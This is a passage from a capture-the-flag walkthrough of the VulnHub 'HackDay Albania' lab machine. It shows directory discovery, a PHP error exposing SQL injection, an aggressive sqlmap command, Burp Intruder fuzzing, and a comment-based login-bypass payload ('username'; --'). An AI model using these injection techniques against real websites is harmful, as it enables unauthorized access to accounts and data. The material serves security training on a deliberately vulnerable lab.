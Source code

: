 Checking the corresponding logfile shows that the image could not be found in folder `unisxcudkqjydw`.
```
root@kali:~/albania# cat unisxcudkqjydw.log
--2016-11-24 10:19:45--  http://192.168.56.101:8008/unisxcudkqjydw/background.jpg
Connecting to 192.168.56.101:8008... connected.
HTTP request sent, awaiting response... 404 Not Found
2016-11-24 10:19:45 ERROR 404: Not Found.
```

So lets call this folder in the browser to see, why this error happened. This directory is the only one with no meme in it, but a little hint:
```
IS there any /vulnbank/ in there ???
```

So after calling
```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/
```

We are presented a login page for Secure Bank.

[![Login](/img/vulnhub_hackday_albania/login_thumb.png)](/img/vulnhub_hackday_albania/login.png)

I first tried to log in with various default passwort combinations but none of them worked.

After putting a single `'` in the username field, the application responds with an PHP error message:
```
Warning: mysqli_fetch_assoc() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/unisxcudkqjydw/vulnbank/client/config.php on line 102
```

**BOOM** looks like SQL-Injection. As I'm lazy I fired up SQLMAP to do the job for me:
```
sqlmap -u "http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/login.php" --data "username=&password=" --dbms mysql --level 5 --risk 3
```

Unfortunately SQLMAP was only able to verify the SQL-Injection but not exploit it - so I had to do it manually.

Sending the request to Burp Intruder I tried the SQL Injection Fuzzing Payloads and it looks like the application is filtering some SQL keywords like "AND" and "OR".

Assuming the query looks something like this
```php
select junk from users where username='$_GET["username"]' and password='$_GET["password"]';
```

a simple query like
```
username'; --
```

should bypass the check (note the extra space at the end).

If the query works, the following SQL statement should be executed and the password check is commented out:
```SQL
select junk from users where username='username'; -- ' and password='';
```
